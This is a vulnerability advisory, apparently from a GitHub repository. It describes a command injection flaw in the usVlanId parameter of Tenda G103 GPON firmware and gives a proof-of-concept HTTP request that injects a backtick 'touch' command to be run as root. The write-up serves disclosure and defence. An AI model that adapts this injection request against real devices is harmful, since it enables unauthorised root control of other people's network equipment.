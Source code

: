 # Tenda G103 Command Injection Vulnerability in `usVlanId` Parameter of `action_set_net_settings` (gpon.lua)

## Overview

A command injection vulnerability exists in the `action_set_net_settings` function within the `gpon.lua` file of Tenda G103 GPON optical network terminals. This vulnerability is triggered only when the `modeOption` parameter is set to `2` or `3` (manual VLAN mode), due to improper sanitization of the `usVlanId` parameter. The parameter is directly concatenated into system commands without validation, allowing authenticated attackers to execute arbitrary system commands with root privileges and potentially take full control of the device.

The environment can be simulated using FirmAE:



![FirmAE Emulation 1](./imgs/1.png)



![FirmAE Emulation 2](./imgs/2.png)

## Details



*   **Vendor**: Tenda

*   **Product**: Tenda G103 GPON Optical Network Terminal

*   **Firmware Version**: US\_G103V1.0la\_V1.0.0.5\_TDC01

*   **Firmware Download**: [https://tenda.com](https://tenda.com.cn/material/show/2615)[.cn/m](https://tenda.com.cn/material/show/2615)[ateri](https://tenda.com.cn/material/show/2615)[al/sh](https://tenda.com.cn/material/show/2615)[ow/26](https://tenda.com.cn/material/show/2615)[15](https://tenda.com.cn/material/show/2615)

*   **Affected Component**: `gpon.lua` (LuCI controller)

*   **Affected Function**: `action_set_net_settings`

*   **Affected Parameter**: `usVlanId` (triggered when `modeOption=2` or `3`)

*   **Vulnerability Type**: Command Injection

*   **Impact**: Arbitrary command execution, VLAN configuration tampering, network traffic manipulation, or complete device takeover

*   **Reported by**: n0ps1ed (n0ps1edzz@gmail.com)

## Vulnerability Analysis

The `action_set_net_settings` function handles VLAN configuration, where the `usVlanId` parameter specifies the user-side VLAN ID. A critical flaw exists: when `modeOption` is set to `2` (DS auto + US manual) or `3` (Strip DS + US manual), `usVlanId` is directly passed to the `fw_setenv` system command without sanitization or validation.

Key vulnerable code in `gpon.lua`:



![Vulnerable Code Snippet](./imgs/3.png)



Attackers can inject arbitrary commands by embedding shell metacharacters (e.g., backticks `` ` ``, semicolons `;`, or `&&`) in `usVlanId`, but only when `modeOption` is set to `2` or `3`. These characters are not filtered, allowing the injected payload to be parsed and executed by the system shell.

## Proof of Concept (PoC)

### Execute `touch` to Create a Test File



```
POST /cgi-bin/luci/;stok=ffa53ec8dc7db8ad4842c6e91589c8e9/admin/gpon/set-net-settings HTTP/1.1
Host: 192.168.0.1
Content-Length: 102
X-Requested-With: XMLHttpRequest
Accept-Language: en-US,en;q=0.9
Accept: \*/\*
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.6668.71 Safari/537.36
Origin: http://192.168.0.1
Referer: http://192.168.0.1/cgi-bin/luci/;stok=ffa53ec8dc7db8ad4842c6e91589c8e9/admin/gpon
Accept-Encoding: gzip, deflate, br
Cookie: isLogin=true; sysauth=1db9fe0d814594958dc79f73fa79196d; sysauth=; repeatTimes=2; isLogin=true
Connection: keep-alive

authSerialNo=&modeOption=3&usVlanId=1`touch$IFS/tmp/usVlanId.txt`&usVlanPriority=0&oltType=0&dhcpen=0
```

#### Execution Steps:



1.  Send the POST request above with `modeOption=3` (to trigger manual VLAN mode), a valid `stok` (session token), and authentication cookies.

2.  Access the device (via CLI, telnet, or another injected command) and verify the existence of `/tmp/usVlanId.txt`.

#### Expected Result:

The file `/tmp/usVlanId.txt` is created, confirming successful execution of the injected `touch` command.



![PoC Result 1](./imgs/4.png)



![PoC Result 2](./imgs/5.png)
